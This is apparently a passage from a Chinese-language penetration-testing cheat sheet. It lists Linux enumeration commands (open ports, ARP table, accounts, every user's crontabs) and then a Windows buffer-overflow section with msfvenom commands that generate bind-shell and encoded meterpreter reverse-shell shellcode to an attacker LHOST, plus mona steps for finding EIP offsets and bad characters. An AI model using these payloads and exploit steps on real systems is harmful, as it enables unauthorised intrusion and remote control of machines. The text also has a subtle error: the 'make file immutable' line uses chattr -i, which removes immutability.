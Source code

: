 
// 获取进程打开端口的信息
lsof -i


// 看看 ARP 表中是否有奇怪的东西
arp -a


// 查看所有账户
getent passwd


// 查看所有用户组
getent group


// 列举所有用户的 crontabs
for user in $(getent passwd|cut -f1 -d:); do echo "### Crontabs for $user ####"; crontab -u $user -l; done


// 生成随机密码
cat /dev/urandom| tr -dc ‘a-zA-Z0-9-_!@#$%^&amp;*()_+{}|:&lt;&gt;?=’|fold -w 12| head -n 4


// 查找所有不可修改的文件
find . | xargs -I file lsattr -a file 2&gt;/dev/null | grep ‘^….i’


// 使文件不可修改
chattr -i file</pre>


### 41.Windows 缓冲区溢出利用命令

> 
<pre>msfvenom -p windows/shell_bind_tcp -a x86 --platform win -b "\x00" -f c
msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=443 -a x86 --platform win -e x86/shikata_ga_nai -b "\x00" -f c


COMMONLY USED BAD CHARACTERS:
\x00\x0a\x0d\x20                              For http request
\x00\x0a\x0d\x20\x1a\x2c\x2e\3a\x5c           Ending with (0\n\r_)


// 常用命令:
pattern create
pattern offset (EIP Address)
pattern offset (ESP Address)
add garbage upto EIP value and add (JMP ESP address) in EIP . (ESP = shellcode )


!pvefindaddr pattern_create 5000
!pvefindaddr suggest
!pvefindaddr modules
!pvefindaddr nosafeseh


!mona config -set workingfolder C:\Mona\%p
!mona config -get workingfolder
!mona mod
!mona bytearray -b "\x00\x0a"
!mona pc 5000
!mona po EIP
!mona sugg</pre>

